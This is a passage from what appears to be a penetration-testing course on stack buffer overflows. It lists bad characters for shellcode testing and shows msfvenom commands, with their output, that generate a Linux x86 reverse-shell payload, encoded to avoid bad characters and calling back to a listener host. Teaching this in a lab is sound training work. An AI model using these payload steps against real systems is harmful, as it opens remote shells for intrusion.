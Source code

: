   Character List

```shell-session
gdxqpardo@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

We already got to know the tool `msfvenom` with which we generated our shellcode's approximate length. Now we can use this tool again to generate the actual shellcode, which makes the CPU of our target system execute the command we want to have.

But before we generate our shellcode, we have to make sure that the individual components and properties match the target system. Therefore we have to pay attention to the following areas:

- `Architecture`
- `Platform`
- `Bad Characters`

#### MSFvenom Syntax

  MSFvenom Syntax

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```

#### MSFvenom - Generate Shellcode

  MSFvenom - Generate Shellcode

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```

#### Shellcode

  Shellcode
